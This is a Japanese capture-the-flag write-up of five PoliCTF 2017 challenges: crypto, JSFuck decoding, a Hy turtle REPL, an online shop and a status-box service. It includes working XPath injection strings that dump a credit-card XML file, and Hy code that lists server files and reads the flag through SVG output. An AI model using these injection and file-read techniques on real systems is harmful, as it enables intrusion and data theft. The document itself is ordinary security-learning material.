

チーム Harekaze で [PoliCTF 2017](http://www.polictf.it/) に参加しました。最終的にチームで 1572 点を獲得し、順位は得点 252 チーム中 25 位でした。うち、私は 5 問を解いて 1036 点を入れました。

以下、解いた問題の write-up です。

## [Crypto 96] Splyt

> Bob splitted a secret and gave some pieces of it to some of his friends. We managed to convince Eve and Chris to give us their shares.

`splyt.py`、`Splyt/__init__.py` という暗号化と復号用の Python のコード、`challenge.json` という暗号化されたファイルが与えられました。

まず `splyt.py` がどのような動きをするか調べてみます。

```
$ python splyt.py
Usage:
splyt.py split <file> <n> <threshold> - outputs a json file with the shares
splyt.py join <shares json>
```

split の方を試してみましょう。

```
$ cat flag.txt
flag{hogefuga}
$ python splyt.py split flag.txt 5 3
[{"y": [136, 142, 131, 137, 157, 138, 145, 137, 135, 136, 151, 137, 131, 159], "x": 1}, {"y": [46, 52, 41, 47, 67, 48, 55, 47, 45, 46, 61, 47, 41, 69], "x": 2}, {"y": [87, 93, 82, 88, 108, 89, 96, 88, 86, 87, 102, 88, 82, 110], "x": 3}, {"y": [4, 10, 254, 5, 25, 6, 13, 5, 3, 4, 19, 5, 254, 27], "x": 4}, {"y": [52, 58, 47, 53, 73, 54, 61, 53, 51, 52, 67, 53, 47, 75], "x": 5}]
```

出力された JSON を `flag.json` に書き込んで join の方も試してみます。

```
$ python splyt.py join flag.json
flag{hogefuga}
```

`flag.json` の要素の数を threshold に指定した 3 未満にしてもう一度 join を試してみます。

```
$ cat flag.json
[{"y": [136, 142, 131, 137, 157, 138, 145, 137, 135, 136, 151, 137, 131, 159], "x": 1}, {"y": [46, 52, 41, 47, 67, 48, 55, 47, 45, 46, 61, 47, 41, 69], "x": 2}]
$ python splyt.py join flag.json
Traceback (most recent call last):
  File "splyt.py", line 41, in <module>
    print(reconstructed, end='')
UnicodeEncodeError: 'cp932' codec can't encode character '\xe2' in position 0: illegal multibyte sequence
```

怒られました。Python 2 で動くように少し手を加えてからもう一度やってみます。

```diff
--- a/splyt.py
+++ b/splyt.py
@@ -38,7 +38,7 @@ if __name__ == '__main__':
             shares = json.load(f)

         reconstructed = Splyt.join(shares)
-        print(reconstructed, end='')
+        print repr(reconstructed)

     else:
         print_help()
```

```
$ python2 splyt.py join flag.json
'\xe2\xe8\xdd\xe3\xf7\xe4\xeb\xe3\xe1\xe2\xf1\xe3\xdd\xf9'
```

`flag{hogefuga}` に復元されなくなりました。出力された文字列と `flag{hogefuga}` の文字コードを比較してみましょう。

```
$ python2
>>> s = 'flag{hogefuga}'
>>> t = '\xe2\xe8\xdd\xe3\xf7\xe4\xeb\xe3\xe1\xe2\xf1\xe3\xdd\xf9'
>>> [ord(a) - ord(b) for a, b in zip(s, t)]
[-124, -124, -124, -124, -124, -124, -124, -124, -124, -124, -124, -124, -124, -124]
```

こんな感じでフラグが得られないか試してみましょう。まず `challenge.json` の join をしてみます。

```
$ python2 splyt.py join challenge.json
'\xa8\xae\xa3\xa9\xbd\xb4u\xb7\xb5s\xb0\xa9\xa1\xb4v\xb0\xa6r\xaf\xa1s\xb5\xa1\xb0r\xb6\xa1\xa8\xb7\xb0\xbfL'
```

フラグは `flag{` から始まるはずです。

```
$ python2
>>> s = 'flag{'
>>> t = '\xa8\xae\xa3\xa9\xbd\xb4u\xb7\xb5s\xb0\xa9\xa1\xb4v\xb0\xa6r\xaf\xa1s\xb5\xa1\xb0r\xb6\xa1\xa8\xb7\xb0\xbfL'
>>> [ord(a) - ord(b) for a, b in zip(s, t[:5])]
[-66, -66, -66, -66, -66]
>>> ''.join(chr(ord(c) - 66) for c in t)
'flag{r3us1ng_r4nd0m_1s_n0t_fun}\n'
```

```
flag{r3us1ng_r4nd0m_1s_n0t_fun}
```

## [Grab Bag 117] JSfuck

> I was writing some valid ECMAScript to print your flag but my fingers slipped and I added several unwanted characters. Could you please fix it for me?

`challenge.js` という [JSF**k](http://www.jsfuck.com/) でエンコードされた JavaScript のコードが与えられます。が、そのまま実行しようとすると `Uncaught SyntaxError: Unexpected token ]` と怒られてしまいました。なんとかしてデコードしましょう。

まず、JSF**k でエンコードされたコードは `()[]+!` の 6 種類の文字しか含みません。これ以外の文字を削除しましょう。

また、JSF**k でエンコードされたコードにはある程度パターンがあります。例えば次のコードは `Function` になり、与えられたコード中に何度か出現しています。

```javascript
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]
```

`escape` と `unescape` はそれぞれ以下のようなコードになります。

```javascript
Function((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(+(!+[]+!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(+![]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(+![]+[![]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]](!+[]+!+[]+!+[]+[+!+[]])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]])()
```

```javascript
Function((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+!+[]]]+([][[]]+[])[+[]]+([][[]]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(+(!+[]+!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(+![]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(+![]+[![]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]](!+[]+!+[]+!+[]+[+!+[]])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]])()
```

`unescape` と `escape` を使って以下のコードで `'*'` を作っているのも確認できます。

```javascript
unescape(escape(([]+[])[([![]]+[][[]])[+!+[]+[+[]]]+(!![]+[])[+[]]+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]]()[+[]])[+[]]+[!+[]+!+[]]+(![]+[])[+!+[]])
```

カッコの対応を確認しながら、文法的にありえない位置にカッコがあれば削除し、このようなパターンを見つけて整理していくと以下のようなコードが得られました。

```javascript
alert("flag{I f***ed my brain so hard i enjoyed it}")
```

```
flag{I f***ed my brain so hard i enjoyed it}
```

## [Grab Bag 425] y-turtle

> A new cyber-artistic collective had fun experimenting with metaprogramming and domain specific languages. Here thre is a first, broken, implementation of a Turtle graphic engine.

与えられた URL にアクセスすると、以下のコードが打ち込まれた状態の REPL が表示されました。

```clojure
(repeat 3 (repeat 6 (move 40) (turn 60) (repeat 6 (move 10) (turn 60))) (turn 120))
```

実行すると以下のような画像が表示されました。



`move` や `turn`、`repeat` などの関数を使って図形を描けるプログラミング言語の REPL のようです。

どの言語が使われているか特定していきます。まず `setf` や `define` などを試してみましたが、いずれも不発でした。

`js/repl.js` の内容を GitHub で検索すると、[hylang/tryhy](https://github.com/hylang/tryhy/blob/e0ecbbbee0ba8c239fd47d73b5dd81353510222f/js/repl.js) がヒットしました。どうやら Hy のようです。

関数として `print` も存在はするようですが、`(print "hoge")` を実行しても何も出力されませんでした。`move` で代替できないか、以下のコードを実行してみました。

```clojure
(for [c "hoge"]
  (move (ord c))
  (move (-(ord c))))
```

返ってきた SVG は以下のような内容でした。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200pt" height="200pt" viewBox="0 0 200 200" version="1.1">
<g id="surface8924">
<path style="fill:none;stroke-width:1;stroke-linecap:butt;stroke-linejoin:miter;stroke:rgb(0%,100%,0%);stroke-opacity:1;stroke-miterlimit:10;" d="M 0 0 L 104 0 Z M 0 0 " transform="matrix(1,0,0,1,100,100)"/>
<path style="fill:none;stroke-width:1;stroke-linecap:butt;stroke-linejoin:miter;stroke:rgb(0%,100%,0%);stroke-opacity:1;stroke-miterlimit:10;" d="M 0 0 L -104 0 Z M 0 0 " transform="matrix(1,0,0,1,204,100)"/>
<path style="fill:none;stroke-width:1;stroke-linecap:butt;stroke-linejoin:miter;stroke:rgb(0%,100%,0%);stroke-opacity:1;stroke-miterlimit:10;" d="M 0 0 L 111 0 Z M 0 0 " transform="matrix(1,0,0,1,100,100)"/>
<path style="fill:none;stroke-width:1;stroke-linecap:butt;stroke-linejoin:miter;stroke:rgb(0%,100%,0%);stroke-opacity:1;stroke-miterlimit:10;" d="M 0 0 L -111 0 Z M 0 0 " transform="matrix(1,0,0,1,211,100)"/>
<path style="fill:none;stroke-width:1;stroke-linecap:butt;stroke-linejoin:miter;stroke:rgb(0%,100%,0%);stroke-opacity:1;stroke-miterlimit:10;" d="M 0 0 L 103 0 Z M 0 0 " transform="matrix(1,0,0,1,100,100)"/>
<path style="fill:none;stroke-width:1;stroke-linecap:butt;stroke-linejoin:miter;stroke:rgb(0%,100%,0%);stroke-opacity:1;stroke-miterlimit:10;" d="M 0 0 L -103 0 Z M 0 0 " transform="matrix(1,0,0,1,203,100)"/>
<path style="fill:none;stroke-width:1;stroke-linecap:butt;stroke-linejoin:miter;stroke:rgb(0%,100%,0%);stroke-opacity:1;stroke-miterlimit:10;" d="M 0 0 L 101 0 Z M 0 0 " transform="matrix(1,0,0,1,100,100)"/>
<path style="fill:none;stroke-width:1;stroke-linecap:butt;stroke-linejoin:miter;stroke:rgb(0%,100%,0%);stroke-opacity:1;stroke-miterlimit:10;" d="M 0 0 L -101 0 Z M 0 0 " transform="matrix(1,0,0,1,201,100)"/>
</g>
</svg>
```

path 要素の d 属性に `d="M 0 0 L 104 0 Z M 0 0 "` や `d="M 0 0 L 111 0 Z M 0 0 "` というような形で文字列の文字コードが出力されています。このような SVG から文字列を取得するスクリプトを書いてみます。

```python
import re
import sys

if len(sys.argv) < 2:
  print 'usage: %s <svg>' % sys.argv[0]
  sys.exit(0)

with open(sys.argv[1], 'r') as f:
  s = f.read()

m = re.findall(r'-(\d+)', s)
print ''.join(chr(int(c)) for c in m)
```

これを使ってファイルの一覧を取得してみます。

```clojure
(import glob)
(for [f (glob.glob "*")]
  (for [c f]
    (move (ord c))
    (move (-(ord c))))
  (move 10)
  (move -10))
```

```
$ python2 s.py a.svg
requirements.txt
css
y_turtle.hy
templates
main.hy
chall.sh
svg
main.py
flag.txt
js
```

`flag.txt` というファイルが存在するようです。内容を取得してみます。

```clojure
(setv fd (open "flag.txt"))
(setv res (.read fd))
(for [c res]
  (move (ord c))
  (move (-(ord c))))
```

```
$ python2 s.py b.svg
flag{sha_ma_na_na_na_shama_na_na_na_na}
```

フラグが得られました。

```
flag{sha_ma_na_na_na_shama_na_na_na_na}
```

## [Grab Bag 278] Polishop

> The Polishop sells everything, from polishirts to the woderfull Poliflag, can you buy it?

与えられた URL にアクセスすると、T シャツやら問題のフラグやらを購入できるサイトが表示されました。

何か購入しようとするとクレジットカードの番号と有効期限を聞かれたので適当に入力したところ、`Wrong combination of card number and date expiration, no card found in creditcards.xml` というエラーが表示されました。

トップページには以下のように商品の検索フォームが用意されていました。

```html
<form action="/lister/search" accept-charset="UTF-8" method="post"><input name="utf8" type="hidden" value="&#x2713;" /><input type="hidden" name="authenticity_token" value="..." />
    <label for="Search_product_by_name:">Search product by name:</label>
    <input type="text" name="name" id="name" />
    <input type="hidden" name="file" id="file" value="polishop.xml" />
    <input type="submit" name="commit" value="search" data-disable-with="search" />
</form>
```

検索対象の XML を変更することができるようで、file を `creditcards.xml` に変えて検索してもエラーは表示されませんでした。

ここで悩んでいたところ、arukuka さんが `"` を検索すると `Invalid search string` というエラーが表示されることを見つけていました。

`a") and (string-length("hoge") = 4 and "" = "` の場合は `a` を検索した場合と同じ結果が表示され、`a") and (string-length("hoge") = 5 and "" = "` の場合は何も表示されませんでした。XPath インジェクションが存在するようです。

この後 arukuka さんが `")]|//*[contains(text(), "` を検索すると `expected items but recieved shop inventory item name price description` が、file を `creditcards.xml` に変えた状態で同じ検索をすると `expected items but recieved shop creditcards card circuit number expire_date` がエラーとして表示されることを見つけていました。これで `polishop.xml` と `creditcards.xml` の構造が把握できました。

あとは、file を `creditcards.xml` に変えた状態で `")]|//creditcards/*[contains(text(), "` を検索すると、以下のようにクレジットカードの情報を得ることができました。

```html
<div class="items-list">
    <div class="item">
        <strong>
          Mastercard
        </strong>
        <br> 7801688742069617
        <br> 32022
        <br>
        <a href="/purchaser/buy?item_id=6813">Buy</a>
        <br>
    </div>
    <div class="item">
        <strong>
          VISA
        </strong>
        <br> 0613876114005877
        <br> 122021
        <br>
        <a href="/purchaser/buy?item_id=1634">Buy</a>
        <br>
    </div>
    <div class="item">
        <strong>
          VISA
        </strong>
        <br> 6358299031208439
        <br> 52019
        <br>
        <a href="/purchaser/buy?item_id=8901">Buy</a>
        <br>
    </div>
</div>
```

最後のカードの場合、`6358299031208439` がカード番号、`52019` が有効期限 (2019 年 5 月 20 日)、`8901` が PIN を意味するようです。これを Poli Flag の購入画面で入力するとフラグが得られました。

```
flag{Y0u_need_m0n3y_if_y0u_w4nt_flags!}
```

## [Pwnables 120] Status Box

> This Box memorizes a statuses sequence composed by a current status and all the previous ones. It already contains a small sequence of statuses, but you can show only the current one. You can set a new status, modify the current one or delete it: in this way the box goes back to the previous one in the sequence. The box can keep track of maximum 200 statuses. It seems just to work fine, even though we didn't test it a lot...;

カテゴリは Pwnables ですがバイナリは配布されず、サーバへの接続情報だけが与えられました。

試しに接続してみると以下のようなメッセージが表示されました。

```
StatusBox started! This Box memorizes a statuses
sequence composed by a current status and all the previous ones.
It already contains a small sequence of statuses, but you can show
only the current one.
You can set a new status, modify the current one or delete it: in this way
the box goes back to the previous one in the sequence.
The box can keep track of maximum 200 statuses.
It seems just to work fine, even though we didn't test it a lot...
CURRENT STATUS:
This is the status set as default current status, change it!


Choose your action:
0 - Print the current status;
1 - Set a new current status;
2 - Delete the current status and go back to the previous one;
3 - Modify the current status.
4 - Exit (statuses will be lost.)
```

繰り返し 2 を入力してステータスを削除すると、3 度削除したところでそれ以上削除できないよと言われてしまいました。

```
Your choice was: 0
CURRENT STATUS:
This is the first status
...
Your choice was: 2
You cannot delete more statuses.
```

いろいろ試していると、3 を入力してステータスの変更を選択したあと空のままエンターを押すと、メニューで 2 を入力した場合と同じ動作をすることが分かりました。

```
Your choice was: 3
Insert the new status, it will modify the current one:

You set the current state to empty, so it was deleted.
Going back to the previous state.
...
Your choice was: 0
CURRENT STATUS:
This is the third status
```

どうやらこの動作にバグがあるようで、この方法でステータスを削除すると `This is the first status` まで消せてしまいました。

```
Your choice was: 0
CURRENT STATUS:
This is the first status
...
Your choice was: 2
You cannot delete more statuses.
...
Your choice was: 3
Insert the new status, it will modify the current one:

You set the current state to empty, so it was deleted.
Going back to the previous state.
...
Your choice was: 0
CURRENT STATUS:
Whoops, what's that?
```

これを何度か繰り返すとフラグが得られました。

```
Your choice was: 0
CURRENT STATUS:
None
...
Your choice was: 3
Insert the new status, it will modify the current one:

You set the current state to empty, so it was deleted.
Going back to the previous state.
...
Your choice was: 0
CURRENT STATUS:
flag{g00d_0ld_m1ss1ng_ch3cks!}
```

```
flag{g00d_0ld_m1ss1ng_ch3cks!}
```